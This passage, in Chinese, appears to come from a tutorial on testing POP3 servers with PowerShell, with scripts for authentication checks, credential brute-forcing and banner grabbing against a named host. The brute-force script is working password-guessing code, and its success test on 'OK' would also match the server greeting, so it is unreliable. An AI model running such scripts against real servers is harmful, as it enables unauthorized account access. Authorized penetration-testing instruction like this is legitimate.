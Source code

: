 ```
    if ($response -match "OK") {
        Write-Host "Authentication succeeded." } else {
        Write-Host "Authentication failed." }
    $popClient.Close()
} catch {
    Write-Host "Connection to POP server failed." }
```

该脚本与 POP 服务器建立连接，尝试使用提供的凭据进行身份验证，并检查响应。如果响应中包含 **"OK"**，则说明身份验证成功。否则，表示失败。

## 暴力破解

评估服务器抵抗暴力破解攻击的能力非常重要。可以使用 PowerShell 来模拟暴力破解尝试。但需要注意的是，在没有适当授权的情况下暴力破解服务器是非法且不道德的。进行此类测试之前，务必确保获得明确的许可。以下是一个简化的示例：

```
 $popServer = "pop.snowcapcyber.com"
$port = 110
$users = "ajcblyth", "jsmith", "pdavies"
$passwords = "password1", "password2", "password3"
foreach ($user in $users) {
    foreach ($password in $passwords) {
        try {
            $popClient = New-Object System.Net.Sockets.TcpClient($popServer, $port)
            $popStream = $popClient.GetStream()
            $popReader = New-Object System.IO.StreamReader($popStream)
            $popWriter = New-Object System.IO.StreamWriter($popStream)
            $popWriter.WriteLine("USER " + $user)
            $popWriter.WriteLine("PASS " + $password)
            $popWriter.WriteLine("QUIT")
            $response = $popReader.ReadToEnd()
            if ($response -match "OK") {
                Write-Host "Brute force succeeded. User: $user, Password: $password"
                $popClient.Close()
                Break }
            $popClient.Close()
        } catch {
            Write-Host "Connection to POP server failed."         }  } }
```

在这个示例中，脚本尝试使用各种用户名和密码组合来检查是否成功认证。请记住，这是一个模拟示例，仅供教育目的使用，在没有适当授权的情况下不应使用。

## 横幅抓取

横幅抓取是通过从服务横幅中获取信息来了解服务器的版本和配置。PowerShell 可以帮助提取这些信息。以下是一个示例：

```
 $popServer = "pop.snowcapcyber.com"
$port = 110
try {
    $popClient = New-Object System.Net.Sockets.TcpClient($popServer, $port)
    $popStream = $popClient.GetStream()
    $popReader = New-Object System.IO.StreamReader($popStream)
    $banner = $popReader.ReadLine()
    Write-Host "Banner: $banner."     $popClient.Close()
} catch {
Write-Host "POP Connection failed."}
```
